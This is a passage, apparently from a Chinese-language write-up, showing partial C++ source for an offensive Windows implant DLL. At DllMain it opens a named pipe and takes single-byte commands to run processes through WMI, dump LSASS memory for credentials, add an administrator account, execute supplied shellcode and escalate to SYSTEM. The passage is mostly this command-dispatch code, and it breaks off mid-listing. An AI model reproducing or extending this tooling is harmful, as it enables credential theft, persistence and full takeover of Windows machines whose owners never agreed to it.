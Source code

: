 最终我采用了管道的形式，在DLLMain被执行时就创建一个命名管道，每个请求会连接管道往里写入16进制的单字节指令。

部分代码：

```cpp
for (;;) {
        if (ConnectNamedPipe(hPipe, NULL) > 0) {
            CHAR szBuffer[BUFF_SIZE];
            BYTE  bMethod; // 操作方法
            ZeroMemory(szBuffer, BUFF_SIZE);
            wprintf(L"[+] Client Connected...\n");
            // 读取操作方法
            ReadFile(hPipe, &bMethod, 1, &dwLen, NULL);
            switch (bMethod)
            {
            case METHOD_WMI_CREATE_PROCESS:
                /// <summary>
                /// 调用WMIC创建进程，无回显
                /// 参数：process
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                CheckSuccessAndSendMsg(WMICCreateProcess(char2wchar(szBuffer)), hPipe);
                break;
            case METHOD_MINIDUMP_LSASS:
                /// <summary>
                /// 高权限的情况下转储Lsass进程内存
                /// 参数：dump
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(MiniDumpLsass(), hPipe);
                break;
            case METHOD_ADD_USER:
                /// <summary>
                /// 高权限的情况下添加用户
                /// 参数：user
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(CreateAdminUserInternal(), hPipe);
                break;
            case METHOD_SHELL_CODE_LOADE:
                /// <summary>
                /// 执行Shellcode
                /// 参数：code
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                CheckSuccessAndSendMsg(ExecuteShellCode(szBuffer, dwLen), hPipe);
                break;
            case METHOD_GETSYSTEM:
                /// <summary>
                /// 创建命名管道
                /// 参数：system
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(Service2System(), hPipe);
                break;
            case METHOD_SYSTEM_EXECUTE:
                /// <summary>
                /// 触发RPC连接提权管道
```